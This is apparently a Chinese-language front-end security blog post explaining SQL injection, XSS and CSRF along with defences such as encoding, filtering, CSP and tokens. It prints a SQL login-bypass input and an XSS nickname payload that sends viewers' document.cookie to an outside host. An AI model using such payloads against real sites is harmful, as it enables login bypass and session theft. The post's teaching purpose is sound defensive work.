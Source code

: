 ```yaml
---
title: 前端安全
date: 2018-01-25 19:11:25
tags: [xss, crsf]
categories: 安全
---
```


```html
<font color="#aaf">safetools 的使用方式</font>
```

[demo](http://h5.test.jimistore.com/base/xss)

1. 引用 js 包（内容很少，也可以将内容拷贝出来，直接引用方法）
2. 将需要提交的数据经过 filter 即可，如下：

```js
浏览器自带转换为字符串
var newValue = safetools.encode(value)

正则加密（可能有兼容）
var newValue = safetools.reEncode(value)

正则解密（可能有兼容）
var newValue = safetools.reDecode(value)
```

> tag: 前端交互，涉及到数据流动并需要在返回在页面上显示的，一定要经过后端！

# <font color="#aaf">常见的攻击手段</font>

## <font color="#0af">1. SQL 脚本注入攻击于与防御</font>

### 概念

> 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据，这就是所谓的SQL Injection，即SQL注入.

### 场景

语句

```sql
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果恶意填入：
> userName = "1' OR '1'='1"; passWord = "1' OR '1'='1";

既可实现无密码登录，美滋滋吧...

### 处理方式

前端和 XSS 处理类似，对传递的数据进行筛选，重点是后端对数据的处理！

## <font color="#0af">2. XSS 攻击与防御</font>

### 概念

> <font color="green">跨站脚本</font>（Cross-site scripting，通常简称为：XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML以及用户端脚本语言。
XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java，VBScript，ActiveX，Flash或者甚至是普通的HTML。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

### 类型

#### 简单分类

1. 反射型xss

通过一次 xss 请求，将数据渲染到页面，请求 -> 返回数据，例子：搜索
2. 储存型xss

通过一次 xss 请求，直接将数据储存在数据库，下次调用无需继续请求，例如：评论

#### 复杂分类

1. client 型
2. server 型

### 处理方式

* 编码
> 将 > ( 标签转换为字符串，可以处理大多数 xss 攻击

* 过滤
> 有的语句并不完全依赖<>标签，例如src="javascript:alert(1);"

* 校正
> 这个照理来说应该后端处理，目前没碰到这种场景

```js
> 一个直播平台，用户可以进入观看，主播可以设置自己的昵称:
var starNickName = '${starNickname}'
```

这怕是要翻水水了...假设是我是主播，我把昵称设置为：

```js
';window.location.href="http//:blog.jzxer.cn/?cook=" + document.cookie + '&url=' window.location.href;''
```

这一串如果传到后端，而后端又没有校正的话的话，这怕是傻眼了...观众进来一个死一个，我应该也会进去蹲几天吧，吧。。。

* CSP

```html
在头部加入：

<meta http-equiv="Content-Security-Policy" content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">
```

meta：不信任任何URL，即不加载任何资源样式表只信任 cdn.example.org 和 third-party.org 框架 (frame) 必须使用HTTPS协议加载 其他资源：没有限制 启用后，不符合 CSP 的外部资源就会被阻止加载。
> 注意：该属性目前比较新，hotfix 和 chorme 支持较好，并不适用于所有的浏览器。

## <font color="#0af">3. CSRF</font> 

> <span style="color:green;">跨站请求伪造</span>（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。跟跨网站脚本（XSS）相比，XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

### 处理方式

* 验证码

在请求的同时，带个token,或者验证码

* Referer Check

这个可以伪造...但加入更保险

> 注意：如果网站有XSS漏洞或者一些跨域漏洞，可能导致Token泄露。 在XSS攻击下，读取Token值，然后再构造出一个合法的请求，可以称为：XSRF。

## 小结

web 安全是个需要长期坚持的事情，没有绝对安全的产品，我们需要做到的就是能够提前预防和及时修复。
